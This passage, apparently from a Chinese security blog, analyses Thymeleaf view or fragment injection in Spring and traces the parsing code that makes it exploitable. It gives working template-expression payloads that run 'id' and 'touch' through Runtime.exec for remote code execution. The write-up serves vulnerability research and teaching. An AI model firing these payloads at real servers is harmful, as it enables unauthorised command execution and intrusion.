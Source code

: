 继续调用 StandardExpressionPreprocessor#_preprocess()；_

 ![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPkpkNrQZxy7cemVsVLs8MJW91nLNBlb4JibdhicCVbpaMkTf2s53IOxtKQ/640?wx_fmt=png)
----------------------------------------------------------------------------------------------------------------------------------------------

preprocess(预处理）方法首先会检查 input（也就是 templateName) 有没有 "_" 下划线这个字符，没有的话就直接原样返回了, 否则继续往下执行。

```
preprocessedInput="user/${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}::x/welcome"
if use with __${expr}__ syntax  instead 
preprocessedInput2="user/shexxxao::x/welcome"
```

```
/** StandardFragmentProcessor **/ 
// Resolve fragment parameters, if specified (null if not)
        final Map<String,Object> fragmentParameters =
                resolveFragmentParameters(configuration,processingContext,fragmentSelection.getParameters());
        if (fragmentSelection.hasFragmentSelector()) {
            final Object fragmentSelectorObject =
                    fragmentSelection.getFragmentSelector().execute(configuration, processingContext);
            if (fragmentSelectorObject == null) {
                throw new TemplateProcessingException(
                        "Evaluation of fragment selector from spec \"" + standardFragmentSpec + "\" " + 
                        "returned null.");
            }
```

用 ${} 返回 preprocessedInput，用__${}__ 返回 preprocessedInput2（用以区分）

```
666::__${T(java.lang.Runtime).getRuntime().exec("touch 667")}__
//使用时同样需要url编码
```

然后继续运行到 internalParseFragmentSelection()，主要实现去除空格等，重要的一步是检查是否包含 “::" 操作符号，这个符号其实是定位符号，用来查找 template 中的 fragment section 部分。

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPk1pRymROTYibPibA6ANsjvbUCQ8iaOm5NkXiadVPLCEUgmdK1dsztW31cNg/640?wx_fmt=png)

其实早在 ThymeleafView#renderFragment() 方法中就先判断了 viewTemplateName 是否包含 "::" 这个操作符号了，否则不会执行上面的 parseFragmentSelection() 过程，压根就不会到后续的 Fragment 表达式解析过程了。

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDaasVgXuX9ic9vzo2A7ybUK8cTibeicI3g1fdQfShYFHuUibh40gLdkbjTcAEcBsY0Dwb543C5ElA8lMWw/640?wx_fmt=png)

也因此为啥称为 Fragment 注入，大都称其为 View 注入。当然只是我觉得用 Fragment 比较符合这个漏洞产生原理，所以叫啥都行，并不重要。

执行到最后会发现 templateNameExpression 为 user/${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()} 这个就无法解析，到这里就抛出异常了。（注意另外一个重要的参数—“fragmentSpecExpression”, 这个后面也有一轮表达式解析的过程，因此:: 后面还可以插入表达式）

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPkN8wSfIWkX89F8OEibC7TS717JDpcRhyDuYjnaia55BT4icaBh38mWqElA/640?wx_fmt=png)0x04 新的注入点—“::”
